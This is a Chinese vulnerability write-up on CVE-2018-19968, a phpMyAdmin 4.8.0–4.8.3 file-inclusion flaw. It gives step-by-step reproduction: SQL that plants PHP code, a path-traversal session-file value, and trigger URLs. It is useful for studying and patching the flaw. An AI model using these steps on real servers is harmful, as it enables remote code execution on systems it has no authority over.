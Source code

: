 （CVE-2018-19968）Phpmyadmin 文件包含漏洞
=========================================

一、漏洞简介
------------

Transformation是phpMyAdmin中的一个高级功能，通过Transformation可以对每个字段的内容使用不同的转换，每个字段中的内容将被预定义的规则所转换。比如我们有一个存有文件名的字段
'Filename'，正常情况下 phpMyAdmin
只会将路径显示出来。但是通过Transformation我们可以将该字段转换成超链接，我们就能直接在
phpMyAdmin 中点击并在浏览器的新窗口中看到这个文件。

通常情况下Transformation的规则存储在每个数据库的pma\_\_column\_info表中，而在phpMyAdmin
4.8.0\~4.8.3版本中，由于对转换参数处理不当，导致了任意文件包含漏洞的出现。

二、漏洞影响
------------

Phpmyadmin 4.8.0\~4.8.3

三、复现过程
------------

1、首先登陆进后台，这里默认是root, toor

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-19968)Phpmyadmin文件包含漏洞/media/rId24.png)

2、创建数据库，并将PHP代码写入SESSION文件中

    CREATE DATABASE foo;
    CREATE TABLE foo.bar ( baz VARCHAR(100) PRIMARY KEY );
    INSERT INTO foo.bar SELECT '<?php phpinfo(); ?>';

访问[http://www.0-sec.org/chk\_rel.php?fixall\_pmadb=1&db=foo在数据库foo中生成phpMyAdmin的配置表。](http://www.0-sec.org/chk_rel.php?fixall_pmadb=1&db=foo在数据库foo中生成phpMyAdmin的配置表。)

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-19968)Phpmyadmin文件包含漏洞/media/rId26.png)

将篡改后的Transformation数据插入表pma*\_columninfo中将sess**中的***替换成你的会话ID，即COOKIE中phpMyAdmin的值，抓包查看session
id，如下

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-19968)Phpmyadmin文件包含漏洞/media/rId27.png)

    INSERT INTO pma__column_info SELECT '1', 'foo', 'bar', 'baz', 'plop', 'plop', 'plop', 'plop', '../../../../../../../../tmp/sess_***','plop'; 
    \#将sess_***中的***替换成你的会话ID，即COOKIE中phpMyAdmin的值

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-19968)Phpmyadmin文件包含漏洞/media/rId28.png)

然后访问

<http://www.0-sec.org/tbl_replace.php?db=foo&table=bar&where_clause=1=1&fields_name%5Bmulti_edit%5D%5B%5D%5B%5D=baz&clause_is_unique=1>
就能自动包含刚才插入数据库表的恶意代码

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-19968)Phpmyadmin文件包含漏洞/media/rId30.shtml)
